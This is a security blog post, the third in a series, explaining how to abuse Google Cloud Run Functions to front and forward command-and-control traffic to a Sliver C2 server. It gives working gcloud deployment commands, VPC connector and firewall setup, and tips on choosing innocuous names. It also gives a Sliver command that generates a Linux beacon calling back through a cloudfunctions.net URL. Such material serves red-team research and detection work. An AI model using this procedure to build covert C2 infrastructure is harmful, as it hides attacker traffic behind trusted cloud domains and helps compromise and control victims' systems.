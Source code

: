 ```yaml
---
layout: post
title:  "GCP Service Command and Control HTTP traffic forwarding part 3"
date:   2025-04-23 17:10:00 +1100
author: Stephen Bradshaw
tags:
- GCP
- Cloud Run Functions
- Cloud Run
- Serverless
- C2
- domain fronting
- forwarding
- container
- sliver
---
```


<p align="center">
  <img width="500" height="500" src="/assets/img/google_cloud_hack_3.png" alt="Google Cloud Hacker">
</p>

This is the third and likely final part in my series on abusing GCP services for C2 implant connectivity.

The previously released [part 1](/2023/08/30/aws-service-C2-forwarding.html) and [part 2](/2025/04/09/gcp-service-C2-forwarding-part-2.html) in the series are also available if you want to read them, with part 1 in particular worth having a look at to explain the rationale behind this technique and the basic environment requirements to make a working C2 system.

This time around, Im going to be talking about [Cloud Run Functions](https://cloud.google.com/functions).

# Cloud Run Functions

In a lot of ways, using Cloud Run Functions to forward C2 implant traffic operates similarly to the [Cloud Run](https://cloud.google.com/run) approach discussed in [part 1](/2025/03/26/gcp-service-C2-forwarding.html#google-cloud-run), with one interesting difference - the ability to access your app via an auto generated URL in the `cloudfunctions.net` domain.

The code for this approach is available [here](https://github.com/stephenbradshaw/GCPCloudRunFunctionsC2Forwarder). You will notice that this code is very similar to those used in the approaches discussed in previous parts of this series, with the main difference being that this code uses the [GCP functions framework](https://github.com/GoogleCloudPlatform/functions-framework-python) instad of Flask.

The difference between "Cloud Run" and "Cloud Run Functions" for C2 traffic forwarding results from the fact that we can actually deploy Cloud Run Functions via the gcloud CLI using two different subcommands `gcloud functions` and `gcloud run`. 

The `gcloud run` subcommand is the same one that we used to deploy the "Cloud Run" example app in part 1 of this series. From what I can tell, this is the newer combined deployment approach that can be used for both "Run" and "Run Function" apps. This method gives us access to new capabilities, such as the ability to route private VPC traffic via [Direct VPC egress](https://cloud.google.com/run/docs/configuring/vpc-direct-vpc). Deployed apps of either type are accessible at two different auto generated URLs under the `run.app` domain - a longer form that is provided in the CLI output as well as a shorter form viewable alongside the longer URL in the web console under the Network tab for the given app.

The `gcloud functions` subcommand appears to be older functionality, works just for "Run Function" apps (e.g. those using the GCP Functions Framework), and does not allow Direct VPC egress, instead requiring a [Serverless VPC connector](https://cloud.google.com/vpc/docs/serverless-vpc-access) to route private VPC traffic. It does however provide us access to our app via three different auto generated URLs instead of only two. Two of these URLs are the same as for the previous method and we then get an additional auto generated URL in the `cloudfunctions.net` domain.

We will look at examples of deploying a Run Function using each of the available approaches below.

First however, make sure you have completed all the supporting steps outlined in [part 1](/2025/03/26/gcp-service-C2-forwarding.html#gcp-c2-poc-environment), and enabled the APIs in your project for Cloud Run if you have not done so before (see commands below)

```
gcloud services enable run.googleapis.com
gcloud services enable cloudbuild.googleapis.com
```

Now lets look at the two deployment approaches, starting with the unique approach that gives us access to an additional reachable endpoint.

# Cloud Run Function Deployment using "gcloud functions"

In this deployment approach, we need to use a [Serverless VPC connector](https://cloud.google.com/vpc/docs/serverless-vpc-access) to allow internal traffic from our function to our C2 instance, similar to what we required when we used [Google App Engine in part 1](/2025/03/26/gcp-service-C2-forwarding.html#google-app-engine). Set this up in the same VPC and region as your C2 instance using the GCP web interface [here](https://console.cloud.google.com/networking/connectors/list.  I used the `10.8.0.0/28` unusued network range and called mine `testconnector`. 

Then, if it does not already exist, setup a [firewall rule](https://console.cloud.google.com/net-security/firewall-manager/firewall-policies/list) for the VPC which allows traffic from the VPC connectors private IP address range to port 80 on our C2 host. I handled this by creating a rule to allow all internal traffic from the range 10.0.0.0/8 (which included the IP range assigned to my testconnector VPC connector) to TCP port 80.


With that complete, we can then deploy our app using the gcloud CLI. 

To run the deployment, we need information on the following:
* A name for our function - this appears in the generated URLs so dont make it sounds too sus - Im using the value `imlegit`
* the internal IP address of our C2 host-  `10.128.0.2` in my case,
* the region we want to deploy in `us-central1`,
* our GCP project id `legitapp-24002`, and
* the full address of our VPC connector, comprised of the GCP project ID, region and connector name, in my case `projects/legitapp-24002/locations/us-central1/connectors/testconnector`


These get slotted into a deployment command like the following. Run this using a cloned copy of the previously mentioned [source code](https://github.com/stephenbradshaw/GCPCloudRunFunctionsC2Forwarder) as the present working directory.

```
gcloud functions deploy imlegit --source . --entry-point main --region us-central1 --runtime python312 --set-env-vars='DESTINATION=10.128.0.2' --trigger-http --allow-unauthenticated --vpc-connector 'projects/legitapp-24002/locations/us-central1/connectors/testconnector'
```


This will deploy when complete will output a URL similar in form to `https://us-central1-legitapp-24002.cloudfunctions.net/imlegit`, where your app will be available.

The architecture looks similar to the following.


<p align="center">
  <img src="/assets/img/c2_architecture_basic_crf.png" alt="C2 with Cloud Run Function Fronting">
</p>


You will note that in this case, the autogenerated URL for the app has pre-populated the chosen function name into the path component (`/imlegit`). This means that whatever C2 we use has to be able to generate its implants with this value pre-populated in the callback URL. In my POC, using [Sliver](https://github.com/BishopFox/sliver), I was able to generate implant binaries for Linux to connect to this endpoint using a command like the following:


```
generate beacon -a amd64 -o linux --http https://us-central1-legitapp-24002.cloudfunctions.net/imlegit/ -s /tmp/crf_beacon
```


As mentioned, there will also be two other auto generated URLs created for our app, which can be obtained from under the Network tab for the app in the [Cloud Run web interface](https://console.cloud.google.com/run).


My additional URLs looked like the following:
* `https://imlegit-983481234768.us-central1.run.app/`
* `https://imlegit-4egjweq6kq-uc.a.run.app/`



# Cloud Run Function Deployment using "gcloud run"

Now lets look at the alternate deployment approach, which results in something functionally similar to the Cloud Run example we look at in [part 1](/2025/03/26/gcp-service-C2-forwarding.html#google-cloud-run).

This approach can use [Direct VPC egress](https://cloud.google.com/run/docs/configuring/vpc-direct-vpc) to allow private traffic flow, so we can do without the Serverless VPC. We will specify the subnet identifier that the C2 instance is running in when we do the deployment so the container that Cloud Run creates runs there for connectivity purposes.


The parameters we will use are:
* A different name for the app - Im going with `toteslegit` like I did in the original Cloud Run example,
* the internal IP address of our C2 host `10.128.0.2`,
* the region we want to deploy in `us-central1`,
* our GCP project id `legitapp-24002`, and
* a subnet to connect the apps container to for network access `projects/legitapp-24002/regions/us-central1/subnetworks/default`


The command looks like the following, run with the cloned [source code](https://github.com/stephenbradshaw/GCPCloudRunFunctionsC2Forwarder) as the present working directory.


```
gcloud run deploy toteslegit --source . --function main --set-env-vars='DESTINATION=10.128.0.2' --region=us-central1 --subnet='projects/legitapp-24002/regions/us-central1/subnetworks/default' --allow-unauthenticated
```

The deployment will spit out a URL similar to `https://toteslegit-983481234768.us-central1.run.app` where our app will then be accessible. 


The architecture looks similar to the following.


<p align="center">
  <img src="/assets/img/c2_architecture_basic_crf2.png" alt="C2 with Cloud Run Function Fronting Alt Method">
</p>


The Network tab for the app in the [Cloud Run web interface](https://console.cloud.google.com/run) will also give us information on the additional auto generated app URL, which in my case was `https://toteslegit-4egjweq6kq-uc.a.run.app/`.


# Conclusion

I believe at this point I have largely exhausted the suitable looking possibilities for abusing GCP services for C2 fronting, so this will likely be the last part in this series. However, if you are aware of any other services that I have missed that could be misused in this way, please let me know and I'll do another follow up.
